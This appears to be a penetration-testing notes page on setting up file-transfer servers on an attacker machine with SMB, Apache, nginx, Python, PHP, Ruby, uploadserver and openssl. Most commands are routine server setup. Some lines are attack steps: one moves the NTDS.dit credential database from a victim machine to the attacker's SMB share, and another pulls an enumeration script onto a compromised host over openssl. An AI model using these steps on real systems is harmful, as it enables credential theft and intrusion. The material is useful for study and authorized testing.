 ```yaml
---
title: Setting up servers
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - servers
  - file transfer
---
```

# Setting up a server (in the attacking machine)

| **Protocol / app**                            |
| --------------------------------------------- |
| [smb server](#smb-server)                     |
| [Apache server](#apache-server)               |
| [ngix](#nginx)                                 |
| [symple python server](#simple-python-server) |
| [php web server](#php-web-server)             |
| [Ruby web server](#ruby-web-server)           |
| Burp Suite Collaborator                       |
| [Interactsh](interactsh.md)                   |
| [responder](responder.md)                     |
| [uploadserver](uploadserver.md)               |
| [Webdav wsgodav server](webdav-wsgidav.md)    |


## smb server

[Launch smbserver in our attacker machine](smbserver.md):

```bash
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/username/Documents/
```

Now, from PS in the victim's windows machine we could upload a folder to the shared folder in the attacker machine just by running:

```powershell
cmd.exe /c move C:\NTDS\NTDS.dit \\$ip\CompData
```


## Apache server

Once you have a folder structure such as "/var/www/" or "/var/www/html", and also an Apache server installed, you can serve all files from that path by initiating the service:

```bash
# Start Apache
service apache2 start

# Stop Apache
service apache2 stop

# Restart Apache
service apache2 restart

# See status of Apache server
service apache2 status
```

In Apache, the PHP module loves to execute anything ending in PHP. Also, by default, with Apache, if we hit a directory without an index file (index.html), it will list all the files.

## nginx

In Apache, the PHP module loves to execute anything ending in PHP. This is not very safe when allowing `HTTP` uploads, as we are trying to avoid that users cannot upload web shells and execute them.

Nginx server: 

```bash
# Create a Directory to Handle Uploaded Files
sudo mkdir -p /var/www/uploads/SecretUploadDirectory

# Change the Owner to www-data
sudo chown -R www-data:www-data /var/www/uploads/SecretUploadDirectory

# Create Nginx Configuration File by creating the file /etc/nginx/sites-available/upload.conf with the contents:
server {
    listen 9001;
    
    location /SecretUploadDirectory/ {
        root    /var/www/uploads;
        dav_methods PUT;
    }
}

# Symlink our Site to the sites-enabled Directory
sudo ln -s /etc/nginx/sites-available/upload.conf /etc/nginx/sites-enabled/

# Start Nginx
sudo systemctl restart nginx.service

# If we get any error messages, check /var/log/nginx/error.log. we might see, for instance, port 80 is already in use.
```

Debuggin nginx:

First check: ensure the directory listing is not enabled by navigating to http://localhost/SecretUploadDirectory

Second check: Is default port in nginx already in use?

```bash
# Verifying Errors
tail -2 `/var/log/nginx/error.log`
# and we might check that port 80 could not be binded because is already in use

# See which service is using port 80
ss -lnpt | grep 80
# we will obtain the service and also the pid. For instance `2811`

# Check pid, for instance pid 2811, and see who is running it
ps -ef | grep "2811"

# Remove NginxDefault Configuration to get around this, we can remove the default Nginx configuration, which binds on port 80.
sudo rm /etc/nginx/sites-enabled/default
```

Finally you can copy to your nginx server all files you want to transfer with curl:

```bash
curl -T file.txt
# -T, --upload-file <file>; This transfers the specified local file to the remote URL. -T uses PUT http method
```


## Simple python server

```shell-session
# Creating a Web Server with Python3
cd /tmp
python3 -m http.server 8000

# Creating a Web Server with Python2.7
python2.7 -m SimpleHTTPServer
```


##  PHP web server

```shell-session
php -S 0.0.0.0:8000
```


## Ruby Web Server

```shell-session
ruby -run -ehttpd . -p8000
```

## uploadserver

More at [uploadserver](uploadserver.md).

Python's http.server extended to include a file upload page. Accepts the same options as http.server, plus a couple extras.

After the server starts, the upload page is at /upload. For example, if the server is running at http://localhost:8000/ go to http://localhost:8000/upload .

Warning: This is an upload server, and running it will allow uploads.

Repo: https://github.com/Densaugeo/uploadserver

**Installation:**

```bash
python3 -m pip install --user uploadserver
```

Basic usage:

```bash
python3 -m uploadserver
```


## openssl

Create a certificate in the attacker's machine:

```shell-session
openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem
```

Launch the openssl server in the attacker's machine:

```shell-session
openssl s_server -quiet -accept $portAttacker -cert certificate.pem -key key.pem < /tmp/LinEnum.sh
```

Next, with the server running, we need to download the file from the compromised machine. So, download the file from the victim's machine:

```shell-session
openssl s_client -connect $ipAttacker:$portAttacker -quiet > LinEnum.sh
```
